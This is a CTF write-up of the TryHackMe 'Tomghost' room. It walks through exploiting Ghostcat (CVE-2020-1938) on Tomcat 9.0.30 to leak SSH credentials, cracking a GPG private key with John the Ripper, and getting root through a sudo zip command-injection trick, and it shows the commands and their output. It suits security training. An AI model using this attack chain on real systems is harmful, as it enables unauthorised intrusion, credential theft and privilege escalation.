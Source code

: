 ```yaml
---
title: Tomghost
description: 'Exploiting Tomcat v9.0.30 (CVE-2020-1938) and privilege escalation through the zip binary with sudo permissions'
pubDate: 2023-06-30
category: 'tryhackme'
image: 'https://tryhackme-images.s3.amazonaws.com/room-icons/016dea7c96e8b422241016405b571c8b.jpeg'
---
```


Getting the Tomcat version:
```bash
curl -s http://10.10.190.59:8080/docs/ | grep Tomcat
```

It reveals that its version 9.0.30 which is vulnerable to CVE-2020-1938.

## USER

```bash
python2 CVE-2020-1938.py 10.10.190.59
Getting resource at ajp13://10.10.190.59:8009/asdf
...[snip]...
<display-name>Welcome to Tomcat</display-name>
  <description>
     Welcome to GhostCat
        skyfuck:8730281lkjlkjdqlksalks
  </description>

```

We can SSH in with the user `skyfuck` and password `8730281lkjlkjdqlksalks`.

In the `/home/merlin` folder we can read the `user.txt` flag.

## ROOT

In the `skyfuck` user folder we find a `credential.pgp` and a `tryhackme.asc` file.
We can load the `tryhackme.asc` private key in PGP:

```bash
gpg --import tryhackme.asc
```

And then decrypt the `credential.gpg` file:

```bash
skyfuck@ubuntu:~$ gpg -d credential.pgp

You need a passphrase to unlock the secret key for
user: "tryhackme <stuxnet@tryhackme.com>"
1024-bit ELG-E key, ID 6184FBCC, created 2020-03-11 (main key ID C6707170)

gpg: gpg-agent is not available in this session
Enter passphrase:
```

It asks for a password which we dont have, we need to crack the private key first.
So on our local machine we convert it to a format we can use with John the Ripper.

```bash
gpg2john tryhackme.asc > hash
```

hash file:
```
tryhackme:$gpg$*17*54*3072*713ee3f57cc950f8f89155679abe2476c62bbd286ded0e049f886d32d2b9eb06f482e9770c710abc2903f1ed70af6fcc22f5608760be*3*254*2*9*16*0c99d5dae8216f2155ba2abfcc71f818*65536*c8f277d2faf97480:::tryhackme <stuxnet@tryhackme.com>::tryhackme.asc
```

Then we can crack the hash:

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (gpg, OpenPGP / GnuPG Secret Key [32/64])
...[snip]...
alexandru        (tryhackme)
...[snip]...
```

Now we can use this password to decrypt the `credential.pgp` file on the remote machine.

```bash
skyfuck@ubuntu:~$ gpg -d credential.pgp # <- Using the password `alexandru`
...[snip]...
gpg: encrypted with 1024-bit ELG-E key, ID 6184FBCC, created 2020-03-11
      "tryhackme <stuxnet@tryhackme.com>"
merlin:asuyusdoiuqoilkda312j31k2j123j1g23g12k3g12kj3gk12jg3k12j3kj123j
```

With this password we can SSH as the `merlin` user.

Checking sudo rights for the `merlin` user:
```bash
merlin@ubuntu:~$ sudo -l
Matching Defaults entries for merlin on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User merlin may run the following commands on ubuntu:
    (root : root) NOPASSWD: /usr/bin/zip
```

```bash
merlin@ubuntu:~$ TF=$(mktemp -u)
merlin@ubuntu:~$ sudo /usr/bin/zip $TF /etc/hosts -T -TT 'sh #'
    adding: etc/hosts (deflated 31%)
# id
uid=0(root) gid=0(root) groups=0(root)
```
